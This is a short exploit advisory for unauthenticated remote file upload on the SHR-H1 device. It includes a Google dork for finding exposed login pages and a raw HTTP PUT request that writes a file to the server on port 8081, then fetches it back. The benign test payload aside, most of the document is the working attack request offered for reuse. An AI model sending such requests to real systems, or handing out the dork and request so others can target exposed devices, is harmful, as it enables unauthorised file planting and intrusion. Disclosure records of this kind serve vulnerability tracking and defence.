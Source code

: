 # Exploit Title: SHR-H1 remote file upload
# Google Dork : intitle:"Login to SHR-H1"
# Date: 2022-05-30
# Exploit Author: Ahmed Alroky
# Author Company : AIactive
# Version: 1.0.0
# Vendor home page : https://www.contec.com/
# Authentication Required: No

# Tested on: Windows


# Exploit
# HTTP Request :

```
PUT /POC.txt HTTP/1.1
Host: HOST_IP:8081
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 7

testttt
```

find uploaded file at http://HOST_IP:8081/POC.txt
